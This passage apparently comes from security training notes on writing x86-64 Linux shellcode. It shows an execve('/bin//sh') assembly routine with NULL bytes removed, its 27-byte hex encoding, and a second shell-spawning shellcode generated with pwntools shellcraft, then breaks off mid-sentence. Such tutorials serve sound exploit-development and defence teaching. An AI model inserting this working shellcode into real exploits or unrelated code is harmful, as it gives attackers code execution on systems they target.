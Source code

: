- As we can see, we pushed two (NULL-terminated) `'/bin//sh'` strings and then moved their pointers to `rdi` and `rsi`. We should know by now that the above assembly code will not produce a working shellcode since it contains NULL bytes.
- `Try to remove all NULL bytes from the above assembly code to produce a working shellcode.`
- Click to show the answer We can zero-out `rdx` with `xor`, and then push it for string terminators instead of pushing `0`:

```nasm
_start:
    mov al, 59          ; execve syscall number
    xor rdx, rdx        ; set env to NULL
    push rdx            ; push NULL string terminator
    mov rdi, '/bin//sh' ; first arg to /bin/sh
    push rdi            ; push to stack 
    mov rdi, rsp        ; move pointer to ['/bin//sh']
    push rdx            ; push NULL string terminator
    push rdi            ; push second arg to ['/bin//sh']
    mov rsi, rsp        ; pointer to args
    syscall
```

- Once we fix our code, we can run `shellcoder.py` on it, and have a shellcode with no NULL bytes:

```shell-session
secmancer@htb[/htb]$ python3 shellcoder.py sh

b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05
27 bytes - No NULL bytes
```

- Try running the above shellcode with `loader.py` to see if it works and drops us in a shell. Now let's try to get another shellcode for `/bin/sh`, using shellcode generation tools.



## Shellcraft
- Let's start with our usual tools, `pwntools`, and use its `shellcraft` library, which generates a shellcode for various `syscalls`. We can list `syscalls` the tool accepts as follows:

```shell-session
secmancer@htb[/htb]$ pwn shellcraft -l 'amd64.linux'

...SNIP...
amd64.linux.sh
```

- We see the `amd64.linux.sh` syscall, which would drop us into a shell like our above shellcode. We can generate its shellcode as follows:

```shell-session
secmancer@htb[/htb]$ pwn shellcraft amd64.linux.sh

6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05
```

- Note that this shellcode is not as optimized and short as our shellcode. We can run the shellcode by adding the `-r` flag:
